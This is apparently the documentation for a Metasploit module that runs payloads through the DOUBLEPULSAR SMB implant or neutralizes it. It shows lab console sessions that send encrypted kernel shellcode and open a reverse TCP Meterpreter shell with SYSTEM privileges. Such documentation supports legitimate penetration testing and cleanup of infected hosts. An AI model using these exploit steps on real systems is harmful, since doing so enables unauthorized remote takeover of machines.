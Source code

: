 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for SMB as popularly deployed by ETERNALBLUE.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > check

[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[+] 192.168.56.115:445 - The target is vulnerable.
msf5 exploit(windows/smb/smb_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:445 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:445 - Encrypting shellcode with XOR key 0x33C6DC64
[*] 192.168.56.115:445 - Sending shellcode to DOUBLEPULSAR
[+] 192.168.56.115:445 - Payload execution successful
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-09-25 18:26:47 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:445 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/smb/smb_doublepulsar_rce) >
```
